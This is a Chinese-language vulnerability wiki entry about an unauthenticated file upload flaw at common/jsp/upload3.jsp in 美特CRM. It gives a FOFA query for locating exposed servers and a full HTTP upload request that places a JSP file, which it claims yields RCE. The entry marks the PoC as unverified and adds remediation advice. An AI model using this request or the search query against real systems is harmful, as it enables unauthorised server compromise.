


# 美特CRM common/jsp/upload3.jsp文件上传

## 条目说明

- 对象与具体问题：美特CRM；common/jsp/upload3.jsp文件上传
- 版本、配置及部署条件：未知版本，JSP可执行上传目录
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 标题路径丢斜杠，参数末尾%3E疑似复制残片，filetitile与filetitle拼写差异需原实现确认
- 仅无害JSP标记上传，需响应路径和执行标记区分任意上传/RCE
- 根因、影响/安全版本缺；在野已知无出处，截图未视检

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

美特CRM commonjspupload3.jsp 文件上传致RCE漏洞，未授权攻击者可直接获取系统权限导致系统失陷。

## 影响版本

美特CRM

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="/common/scripts/basic.js"

POC/EXP：

```http
POST /common/jsp/upload3.jsp?key=file&form=formdata&field=attach_name_1&filetitle=attach_title_1&folder=null&relativepath=null&%3E HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Type: multipart/form-data; boundary=----geckoformboundaryc4e5992e491182d9864532ef66356073
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept-Encoding: gzip, deflate

------geckoformboundaryc4e5992e491182d9864532ef66356073
Content-Disposition: form-data; name="file"; filename="cs.jsp"
Content-Type: application/octet-stream

<% out.println("hello,test");%>
------geckoformboundaryc4e5992e491182d9864532ef66356073
Content-Disposition: form-data; name="key"

file
------geckoformboundaryc4e5992e491182d9864532ef66356073
Content-Disposition: form-data; name="form"

formdata
------geckoformboundaryc4e5992e491182d9864532ef66356073
Content-Disposition: form-data; name="field"

attach_name_1
------geckoformboundaryc4e5992e491182d9864532ef66356073
Content-Disposition: form-data; name="filetitile"

attach_title_1
------geckoformboundaryc4e5992e491182d9864532ef66356073
Content-Disposition: form-data; name="filefolder"

null
------geckoformboundaryc4e5992e491182d9864532ef66356073
Content-Disposition: form-data; name="relativepath"

null
------geckoformboundaryc4e5992e491182d9864532ef66356073--
```







## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
